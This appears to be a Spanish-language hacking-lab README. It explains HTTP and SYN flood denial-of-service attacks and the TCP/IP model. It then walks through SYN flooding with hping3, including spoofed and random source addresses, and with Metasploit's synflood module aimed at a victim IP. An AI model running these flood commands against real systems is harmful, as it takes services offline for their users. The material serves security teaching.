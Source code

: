 # <img alt="Hacking_Labs, más allá de la Ciberseguridad" src="images/DoS.png" width="4%">	Ataque DoS (Denial Of Service) utilizando HTTPFlood

> [!IMPORTANT]
> Laboratorio HTTPFlood (Kali Linux 2023.4) mediante la utilización de scripts externos como <b>Slowloris</b>, <b>DoS-Tool</b> y <b>TCP-UDP-Flood</b>. Un ataque DoS o DDoS no es más que el envío de un número exageradamente elevado de peticiones a una dirección IP que, normalmente, suele ser un servidor o infraestructura, el cual llega a ser incapaz de gestionar dicho número de peticiones, causando un error o crasheo del sistema y la detención y/o reinicio de servicios, quedando inaccesible al resto de usuarios. 

> En la más cruda realidad, los ataques <b>HTTP flood</b> se basan en las peticiones <b>GET</b> o <b>POST</b> del cliente, es decir, el navegador que quiere acceder al sitio web, el cual envía una de estas solicitudes que, posteriormente, procesa el servidor y, a su vez, envía la respuesta de vuelta al cliente. Como en todo, siempre hay un pero:

- <b>Peticiones GET</b>: recuperan contenido estático (imágenes o bloques de texto), es decir, recibe datos del servidor
- <b>Peticiones POST</b>: se utilizan para acceder a recursos dinámicos, es decir, se envían datos al servidor. 

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/HTTP_Flood_0.gif">
  <source media="(prefers-color-scheme: light)" srcset="images/HTTP_Flood_0.gif">
  <img alt="Hacking_Labs, más allá de la Ciberseguridad" src="images/HTTP_Flood_0.gif" width="50%">
</picture>
</p>

> Ambos pueden utilizarse para efectuar el <b>ataque HTTP Flood</b>, aunque el método POST se emplea con más frecuencia (requiere un procesamiento complejo por parte del servidor), ya que se realizan muchas de estas peticiones simultáneamente y durante un período de tiempo prolongado. A modo general, se usa una <b>botnet</b> para aumentar la cantidad de solicitudes de tal manera que el servidor dedique el mayor volumen de recursos posible a cada petición. 

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/HTTP_Flood_1.png">
  <source media="(prefers-color-scheme: light)" srcset="images/HTTP_Flood_1.png">
  <img alt="Hacking_Labs, más allá de la Ciberseguridad" src="images/HTTP_Flood_1.png" width="50%">
</picture>
</p>





------------------------------------------------------------------------------


> En este caso, con el ataque de tipo <b>SYN flood</b>, constituye un abuso del <b>TCP Threeway Handshake</b>:
- 1.- Se utiliza el <b>TCP (Transmission Control Protocol)</b>, un protocolo de red que, junto al IP, asegura un tráfico de datos sin pérdidas a través de Internet. Una conexión TCP siempre se establece con una autenticación completa de tres pasos. 
- 2.- Para la conexión, el cliente envía un <b>paquete de sincronización (SYN)</b> al servidor, el cual, cuando es recibido por parte del servidor, responde con un <b>paquete de sincronización (SYN)</b> y una <b>confirmación (ACK)</b>. 
- 3.- La conexión concluye con el <b>acuse de recibo (ACK)</b> se realizar por parte del cliente. 
> En caso de que el último acuse no se produzca, los sistemas se pueden paralizar ya que el servidor no cuenta en su memoria con suficientes conexiones confirmadas... Por medio de una inundación SYN se reúne un gran número de conexiones incompletas, por lo que los recursos disponibles del servidor se ocupan por completo.

> ### Primeros conceptos: MODELO TCP/IP :computer:
> Como primer concepto, se ha de conocer el <b>modelo TCP/IP</b>, protocolo de red que permite la comunicación a través de Internet (abreviatura de <b>Protocolo de control de transmisión/Protocolo de Internet</b>), el cual es un protocolo estándar y un modelo (en la actualidad) de 4 capas que define cómo se transmiten los datos a través de una red y cómo se comunican los dispositivos. Su origen se da en la década de 1970 gracias al Departamento de Defensa de USA (DOD), ya que se pretendía crear una red que pudiera funcionar incluso si partes de ella resultaran dañadas o destruidas. Posteriormente, el modelo TCP/IP se publicó por primera vez en 1981 (versión 4) y luego se actualizó a la versión 6 en 1995. 

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/TCPSyn_1.png">
  <source media="(prefers-color-scheme: light)" srcset="images/TCPSyn_1.png">
  <img alt="Hacking_Labs, más allá de la Ciberseguridad" src="images/TCPSyn_1.png" width="50%">
</picture>
</p>


> Veamos todas las capas TCP/IP: 

> <b>1.- Capa de aplicación</b>: es la capa más alta del modelo TCP/IP, un marco que define cómo se comunican los dispositivos a través de una red, es decir, es la capa más cercana al usuario final y representa las aplicaciones que se ejecutan en el dispositivo y utilizan la red para comunicarse y cuya función principal es proporcionar un medio para que las aplicaciones accedan a la red y se comuniquen con otros dispositivos. Así, se presentan un conjunto de protocolos que permiten a las distintas aplicaciones enviar y recibir datos a través de la red, como por ejemplo los protocolos <b>HTTP (Protocolo de transferencia de hipertexto)</b>, <b>SMTP (Protocolo Simple de Transferencia de Correo)</b>, <b>DNS (Sistema de Nombres de Dominio)</b>, <b>RDP (Protocolo de Escritorio Remoto)</b>, <b>SNMP (Protocolo simple de gestión de red)</b>, <b>FTP (Protocolo de Transferencia de Archivos)</b> o <b>HTTPS (Protocolo Seguro de Transferencia de Hipertexto)</b>

> <b>2.- Capa de transporte</b>: define cómo se comunican los dispositivos a través de una red, por lo que se sitúa por encima de la capa de Internet y de la capa de aplicación, lo que le brinda una función principal que garantiza la entrega fiable de datos entre los dispositivos de una red, es decir, es responsable de establecer y mantener la comunicación de extremo a extremo entre dispositivos y de proporcionar comprobación de errores y control de flujo. Para ello, utiliza dos protocolos principales para lograr estos objetivos, como son <b>TCP (Protocolo de Control de Transmisión)</b> como protocolo orientado a la conexión que proporciona una entrega de datos fiable y <b>UDP (Protocolo de Datagramas de Usuario)</b> como protocolo sin conexión que no garantiza la entrega de datos. Además, esta capa ofrece servicios como la numeración de puertos, lo cual permite que varias aplicaciones de un mismo dispositivo se comuniquen simultáneamente a través de la red, proporcionando además multiplexación y demultiplexación para la transmisión de múltiples flujos de datos a través de una única conexión.

> <b>3.- Capa de Internet</b>: se encarga de proporcionar servicios lógicos de direccionamiento y encaminamiento para garantizar que los paquetes de datos se entregan desde su origen hasta su destino a través de una red, es decir,m proporciona los medios para que dos dispositivos se comuniquen entre sí independientemente de su ubicación física o del tipo de red a la que estén conectados. Algunos ejemplos de protocolos de capa de Internet son, por ejemplo, el <b>Protocolo de Internet (IP)</b> , <b>Protocolo de Mensajes de Control de Internet (ICMP)</b>, <b>Protocolo de Gestión de Grupos de Internet (IGMP)</b>, <b>Protocolo de resolución de direcciones (ARP)</b>, <b>Protocolo de Resolución Inversa de Direcciones (RARP)</b> y el <b>Protocolo de Internet versión 6 (IPv6)</b>.

> <b>4.- Capa de acceso a la red</b>: también conocida como <b>capa de enlace</b>, es responsable (junto con las anteriores capas) de la transmisión de datos entre dispositivos de una red local, es decir, se encarga de transmitir datos entre dispositivos conectados físicamente a la misma red y utiliza protocolos como Ethernet y Token ring. Esta capa se encarga de añadir una cabecera a cada paquete de datos que contiene información como la <b>dirección MAC (Media Access Control)</b> de destino y el número de secuencia del paquete (recordemos que la dirección MAC es un identificador numérico único asignado a cada dispositivo conectado a la red). Ejemplos de protocolos de esta capa pueden ser <b>Token Ring (IEEE 802.5)</b>, <b>PPP (Protocolo Punto a Punto)</b> y <b>Frame Relay</b>.

> Sabiendo esto, estamos en disposición de comenzar a realizar un ataque de <b>inundación TCP SYN</b>, muy efectivo si realizamos Dos o DDoS. Realmente, este tipo de ataque realiza un bombardeo masivo de peticiones de conexión al servidor objetivo (mediante paquetes SYN), siempre sin responder a los acuses de recibo de transmisión que se lanzan por parte del server (los que serían paquetes ACK SYN). Evidentemente, al no terminar la negociación, se consumen los recursos del servidor para básicamente desplazar el tráfico legítimo, haciendo imposible abrir nuevas conexiones legítimas y dificultando o imposibilitando el funcionamiento correcto del servidor para los usuarios autorizados que ya están conectados.

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/TCPSyn_2.png">
  <source media="(prefers-color-scheme: light)" srcset="images/TCPSyn_2.png">
  <img alt="Hacking_Labs, más allá de la Ciberseguridad" src="images/TCPSyn_2.png" width="50%">
</picture>
</p>

> Existen varios tipo de ataque:
- <b>Ataque directo</b>: en este caso, el atacante no oculta su dirección IP. Dado que para crear el ataque utiliza un único dispositivo de origen con una dirección IP real, el atacante es altamente vulnerable a ser descubierto y a las mitigaciones (blacklist y otros bloqueos). 
- <b>Ataque con suplantación</b>: el atacante puede falsificar la dirección IP en cada paquete SYN que dr envíe para obstaculizar los esfuerzos de mitigación y dificultar que se descubra su identidad... Los paquetes pueden ser falsificados, aunque estos podrían llegar a rastrearse hasta su origen ya que, principalmente, dependemos de los <b>ISP (Internet Service Provider)</b>.
- <b>Ataque distribuido (DDoS)</b>: si un ataque se crea usando una <b>red de bots (botnet)</b>, es muy difícil rastrear el ataque hasta su origen ya que, por añadidura, el atacante puede hacer que cada dispositivo distribuido también falsifique las direcciones IP desde las que envía los paquetes. 
- <b>Ataques SYN flood por reflejo</b>: un servidor suele responder normalmente a un solo paquete SYN con varios paquetes SYN/ACK, por lo que se puede aprovechar esta circunstancia para lanzar un ataque SYN flood por reflejo donde el atacante falsifica la dirección IP de la víctima e inicia un ataque SYN flood DDoS contra uno o varios servidores de terceras partes... Así, cada uno de los servidores responde a cada paquete SYN entrante con varios paquetes SYN/ACK que se envían a la víctima, por lo que se produce una multiplicación del tráfico de red y, evidentemente, un bombardeo de paquetes SYN/ACK recibido en el PC de la víctima, el cual terminará colapsando.

> En la realidad, al usar un ataque de inundación SYN, se intenta crear una denegación de servicio en un dispositivo o servicio atacado con bastante menos tráfico que otros tipos de ataques DDoS más agresivos, es decir, que en lugar de ataques volumétricos (que intentan saturar la infraestructura de la red que rodea al objetivo), los ataques SYN solo necesitan ser más grandes que el registro disponible dentro del sistema operativo del objetivo. Así, si se logra determinar el tamaño del registro y cuánto tiempo queda abierta una conexión antes de que finalice el tiempo de espera, entonces se podrán obtener los parámetros exactos necesarios para deshabilitar el sistema, reduciendo el tráfico total hasta el mínimo necesario para crear una denegación de servicio.

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/TCPSyn_3.png">
  <source media="(prefers-color-scheme: light)" srcset="images/TCPSyn_3.png">
  <img alt="Hacking_Labs, más allá de la Ciberseguridad" src="images/TCPSyn_3.png" width="50%">
</picture>
</p>

> ### Trabajando con TCP-SYN Flood / SYN-ACK: HPing3 :computer:
> <b>Hping3</b> es una aplicación de Kali Linux que permite analizar y ensamblar paquetes TCP/IP, aunque se utiliza para enviar paquetes TCP, UDP y RAW-IP. Su uso va desde el simple análisis de los paquetes, hasta probar la eficacia de un firewall a través de diferentes protocolos, la detección de paquetes sospechosos o modificados e incluso la protección frente a ataques DoS de un sistema o de un firewall.
> Veamos diversos tipos de ataque SYN Flooding:

- <b>Paso 1</b>: En la shell (con privilegios de administrador), lanzamos el comando o, si no está disponible, instalaremos el paquete mediante el código:
<b>

```
apt-get install hping3
```
</b>

- <b>Paso 2</b>: Podemos realizar un ataque muy sencillo de tipo DDoS con el comando:
<b>

```
hping3 -p 80  -S --flood [ip_victima]
```
</b>
Se puede comprobar que <b>-p</b> es utilizado para determinar el puerto, que <b>-S</b> activa la flag SYN del paquete TCP-IP, y que <b>--flood</b> indica que el envío de paquetes se realizará de la manera más rápida posible. Además, podemos encubrir el origen con múltiples variantes

<b>

```
hping3 -a [ip_atacante_falsa] -p 80  -S --flood [ip_victima] # IP de origen encubierta
```
</b>

<b>

```
hping3 --rand-source -p 80  -S --flood [ip_victima] # IP de origen generada aleatoriamente
```
</b>

<b>
```
hping3 -c 15000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.1.47
```
</b>
Podemos comprobar que las variables <b>-c</b> determina la cantidad de paquetes que se enviarán, que <b>-S</b> activa la flag SYN del paquete TCP-IP, que <b>-p</b> es utilizado para determinar el puerto al que realizar el ataque, <b>-d</b> determina el tamaño de los paquetes que se envían y que <b>-w</b> sirve para mostrar las respuestas Windows.

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/TCPSyn_4.png">
  <source media="(prefers-color-scheme: light)" srcset="images/TCPSyn_4.png">
  <img alt="Hacking_Labs, más allá de la Ciberseguridad" src="images/TCPSyn_4.png">
</picture>
</p>

> ### Trabajando con SYNFlood: METASPLOIT SynFlood :computer:
> <b>SynFlood</b> es una de las herramientas auxiliares disponibles en el <b>Framework Metasploit</b> donde, de nuevo, la herramienta se aprovecha de un fallo en la forma en que la mayoría de los hosts tienen implementado el handshake TCP de tres vías.
> Veamos la realización del ataque SYN Flooding:

- <b>Paso 1</b>: En la shell (con privilegios de administrador), arrancamos PostGreSQL:
<b>

```
service postgresql start
```
</b>

- <b>Paso 2</b>: Posteriormente, cargamos el Framework Metasploit con ayuda del comando:
<b>

```
msfconsole
```
</b>

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/TCPSyn_5.png">
  <source media="(prefers-color-scheme: light)" srcset="images/TCPSyn_5.png">
  <img alt="Hacking_Labs, más allá de la Ciberseguridad" src="images/TCPSyn_5.png">
</picture>
</p>

- <b>Paso 3</b>: Ya en el Framework Metasploit, nos disponemos a cargar la herramienta auxiliar con ayuda del comando:
<b>

```
use auxiliary/dos/tcp/synflood
```
</b>

- <b>Paso 4</b>: Gracias al comando que mostramos a continuación, podemos configurar la IP de la víctima:
<b>

```
set RHOST [ip_victima]
```
</b>

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/TCPSyn_6.png">
  <source media="(prefers-color-scheme: light)" srcset="images/TCPSyn_6.png">
  <img alt="Hacking_Labs, más allá de la Ciberseguridad" src="images/TCPSyn_6.png">
</picture>
</p>

Podemos comprobar si está o no configurado mediante:
<b>

```
show options
```
</b>

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/TCPSyn_7.png">
  <source media="(prefers-color-scheme: light)" srcset="images/TCPSyn_7.png">
  <img alt="Hacking_Labs, más allá de la Ciberseguridad" src="images/TCPSyn_7.png">
</picture>
</p>

- <b>Paso 5</b>: Ya podemos realizar el ataque SYN Flood sin problema:
<b>

```
Exploit
```
</b>

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/TCPSyn_8.png">
  <source media="(prefers-color-scheme: light)" srcset="images/TCPSyn_8.png">
  <img alt="Hacking_Labs, más allá de la Ciberseguridad" src="images/TCPSyn_8.png">
</picture>
</p>